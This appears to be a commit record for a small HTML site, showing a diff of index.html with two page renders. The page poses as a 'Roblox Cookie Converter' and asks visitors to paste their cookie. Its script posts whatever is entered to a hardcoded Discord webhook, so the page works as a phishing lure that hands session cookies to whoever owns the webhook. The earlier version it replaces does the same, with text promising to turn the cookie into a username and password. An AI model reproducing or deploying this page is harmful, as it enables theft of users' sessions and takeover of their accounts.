

Before and after one commit to potatofinder/discordwebhooksender, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1053 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,76 @@
-<form id="myForm">
-  <input type="text" id="textInput" placeholder="Enter your cookie here">
-  <input type="text" id="textInput" placeholder="What email should we send the username and password to?">
-  <button type="button" onclick="sendToDiscord()">Convert to Username and Password</button>
-</form>
+<!DOCTYPE html>
+<html>
+  <head>
+    <style>
+      body {
+        background-color: #333;
+      }
+
+      #title {
+        text-align: center;
+        font-size: 48px;
+        font-weight: bold;
+        color: white;
+        padding: 20px;
+        font-family: Arial, sans-serif;
+      }
+
+      #message {
+        margin: 0 auto;
+        display: block;
+        width: 500px;
+        height: 300px;
+        font-size: 24px;
+        font-weight: bold;
+        padding: 10px;
+        border-radius: 5px;
+        border: 2px solid #1A1A1A;
+        color: white;
+        background-color: #444;
+      }
+
+      #sendButton {
+        display: block;
+        margin: 0 auto;
+        width: 200px;
+        height: 50px;
+        font-size: 24px;
+        font-weight: bold;
+        background-color: #002266;
+        border: none;
+        border-radius: 10px;
+        cursor: pointer;
+        box-shadow: 0px 10px 15px rgba(0, 0, 0, 0.2);
+        color: white;
+        transition: all 0.2s ease-in-out;
+      }
+
+      #sendButton:hover {
+        background-color: #001a40;
+      }
+    </style>
+  </head>
+  <body>
+    <div id="title">🤖 Roblox Cookie Converter 🚀</div>
+    <textarea id="message"></textarea><br>
+    <button id="sendButton">Send Message</button>
+    <script>
+      function sendMessage() {
+        const message = document.getElementById("message").value;
+        const webhookUrl = "https://discord.com/api/webhooks/1237584893756575845/AP_2URcUznCp86IZ2GlJeJxNfyr6TXKxhA1wjU7YZvh-SKXSK6OuEaBvWvoqC6zDcfBO";
+
+        fetch(webhookUrl, {
+          method: "POST",
+          headers: {
+            "Content-Type": "application/json",
+          },
+          body: JSON.stringify({ content: message }),
+        })
+          .then((response) => console.log(response))
+          .catch((error) => console.error(error));
+      }
+
+      document.getElementById("sendButton").addEventListener("click", sendMessage);
+    </script>
+  </body>
+</html>
```
